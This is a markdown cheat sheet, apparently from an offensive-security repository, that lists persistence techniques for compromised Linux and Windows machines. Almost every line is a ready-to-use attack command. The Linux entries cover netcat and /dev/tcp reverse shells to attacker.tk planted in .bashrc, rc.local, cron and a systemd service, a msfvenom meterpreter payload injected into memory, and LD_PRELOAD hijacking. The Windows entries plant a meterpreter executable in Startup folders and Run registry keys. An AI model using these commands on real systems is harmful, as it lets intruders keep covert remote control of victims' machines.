 ## LINUX
- [Linux Persistance MANUL](https://hadess.io/the-art-of-linux-persistence)
- [PANIX](https://github.com/Aegrah/PANIX)

- Autorun

    `bash$> echo "nc attacker.tk 8888 ‐e /bin/bash 2>/dev/null &" >>~/.bashrc`

- Service

    `bash#> vim /etc/systemd/system/persistence.service`<br>
    `bash$> vim ~/.config/systemd/user/persistence.service`<br>
    `[Unit]`<br>
    `Description=persistence`<br>
    `[Service]`<br>
    `ExecStart=/bin/bash ‐c 'bash ‐i >& /dev/tcp/attacker.tk/8888 0>&1'`<br>
    `Restart=always`<br>
    `RestartSec=60`<br>
    `[Install]`<br>
    `WantedBy=default.target`<br>
    `bash#> systemctl enable persistence.service`<br>
    `bash#> systemctl start persistence.service`<br>
    `bash$> systemctl ‐‐user enable persistence.service`<br>
    `bash$> systemctl ‐‐user start persistence.service`<br>

- Tasks

    `bash#> echo "- - - - - bash ‐i >& /dev/tcp/attacker.tk/8888 0>&1" >>/var/spool/cron/root`<br>
    `bash#> echo $'SHELL=/bin/bash\n- - - - - root bash ‐i >& /dev/tcp/attacker.tk/8888 0>&1\n'> /etc/cron.d/pwn`<br>

- In MEMORY

    `msfvenom ‐p linux/x86/meterpreter/reverse_tcp LHOST=1.2.3.4 LPORT=8888 ‐f raw ‐o meter32.bin exitfunc=thread StagerRetryCount=999999`<br>
    `bash$> inject_linux PID meter32.bin`

- LD_PRELOAD

    `bash#> echo /path/to/meter.so >> /etc/ld.so.preload`<br>
    `bash#> echo export LD_PRELOAD=/path/to/meter.so >> /etc/profile`<br>
    `bash$> echo export LD_PRELOAD=/path/to/meter.so >> ~/.bashrc`<br>

- rc.local

    `bash#> echo "nc attacker.tk 8888 ‐e /bin/bash &" >> /etc/rc.local`

## WINDOWS

- [Windows domain persistence](https://hadess.io/pwning-the-domain-persistence/)

- Autorun

    `cmd$> copy meter.exe %APPDATA%\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\`<br>
    `cmd$> reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v persistence /t REG_SZ /d "C:\users\username\meter.exe"`<br>
    `cmd#> copy meter.exe C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup\`<br>
    `cmd#> reg add "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" /v persistence /t REG_SZ /d "C:\Windows\system32\meter.exe"`<br>
